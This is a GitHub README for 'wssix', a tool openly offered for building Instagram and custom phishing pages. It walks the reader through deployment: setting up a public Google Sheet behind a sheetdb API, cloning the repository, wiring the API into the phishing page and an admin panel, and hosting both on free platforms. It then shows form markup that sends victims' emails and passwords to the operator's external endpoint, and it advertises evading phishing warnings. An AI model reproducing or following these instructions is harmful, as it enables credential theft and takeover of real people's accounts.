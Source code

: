 
# wssix
wssix helps you to create your own phishing tool.

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites

## Deployment

#### Creating API key...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells.( **not real email password , just type this words** )

- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
https://sheetdb.io/api/v1/xvxbpk*******
```

#### Setup Phish page and Admin Panel ...

- Now, First clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Inside Instagram-phish folder , Open **index.html** file.

- In this file search this string : 
```bash
    http://your-sheetdb-api
```
and replace this with Your API.

- Now open **Admin-wssix** Folder.
- Goto **/static/js/** folder and open **main.864cb797.js** file.

- In this file search this string :
```bash 
http://your-sheetdb-api
```
and replace with your  **sheetdb** api.

**All done.....**

Now host **Admin-wssix** folder and **Instagram-phish** folder separately.
For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)

### Now! we have our own instagram phishing page tool

## Create custom phish page 

- To send data from your **HTML FORM** to google sheets,
set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this **admin panel**.


